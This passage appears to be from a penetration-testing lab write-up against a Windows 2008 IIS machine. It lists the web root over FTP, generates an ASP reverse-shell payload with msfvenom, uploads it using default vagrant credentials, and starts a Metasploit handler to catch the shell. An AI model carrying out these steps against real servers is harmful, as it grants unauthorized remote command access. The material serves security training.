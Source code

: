 ![](4-exploitationassets/image-20230424111747193.png)

```bash
ls
    229 Entering Extended Passive Mode (|||49567|)
    125 Data connection already open; Transfer starting.
    10-28-21  07:22AM       <DIR>          aspnet_client
    10-28-21  07:19AM                   28 caidao.asp
    10-28-21  07:18AM                34251 hahaha.jpg
    10-28-21  07:18AM              1116928 index.html
    10-28-21  07:18AM              2439511 seven_of_hearts.html
    10-28-21  07:18AM               384916 six_of_diamonds.zip
    10-28-21  07:22AM               184946 welcome.png
    
# Web server home directory
```

- IIS can execute `.asp` files
- Generate an `.asp` reverse shell payload and upload it with FTP

```bash
cd Desktop/Win2k8/
ip -br -c a
	10.10.24.4/24
	
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx
```

```bash
ftp 10.2.29.246
# use vagrant:vagrant
put shell.aspx
```

- Back to the `msfconsole` session tab

```bash
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.24.4
set LPORT 1234
```
